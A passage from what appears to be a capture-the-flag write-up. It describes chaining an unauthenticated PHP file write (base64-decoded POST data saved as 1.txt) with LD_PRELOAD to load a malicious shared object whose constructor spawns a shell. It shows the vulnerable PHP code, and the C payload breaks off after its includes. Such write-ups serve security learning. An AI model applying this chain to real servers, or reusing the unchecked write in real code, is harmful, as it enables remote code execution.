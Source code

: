 #### Step-by-Step Reasoning:
1. **"Can I write non-text?"** → Yes. `base64_decode` → raw bytes.
2. **"Does `.txt` stop ELF?"** → No. Linux ignores extensions.
3. **"Can I make a valid `.so`?"** → Yes. Use `gcc -shared -fPIC`.
4. **"Will it load?"** → Yes ,   if `LD_PRELOAD` points to it.

---


### Exploitation

### Chaining an unauthenticated file write + environment poisoning -> LD_PRELOAD hijack

We can write anything into 1.txt - no checks, no filters, no mercy. Linux doesn’t care about the .txt extension; it only sees the magic bytes. So we craft a fully valid ELF shared object (.so) with a sneaky ```__attribute__((constructor))``` payload, compile it, base64-encode it, and upload it as 1.txt. Then, using ```LD_PRELOAD=/var/www/html/1.txt```, we force the dynamic linker to load our library first on the next process spawn. The constructor fires instantly - shell dropped, game over.

![alt text](/assets/img/QiangQuals/image-2.png)

#### 1) Unauthenticated file write (file_put_contents)
```php
if(isset($_POST['context'])){
    $context = $_POST['context'];
    file_put_contents("1.txt", base64_decode($context));
}
```
In this step, we utilize the arbitrary file write capability to upload a specially crafted **shared object** (.so) disguised as 1.txt. The object contains a constructor function that executes automatically upon loading.
```c
#include <stdio.h>
#include <stdlib.h>

```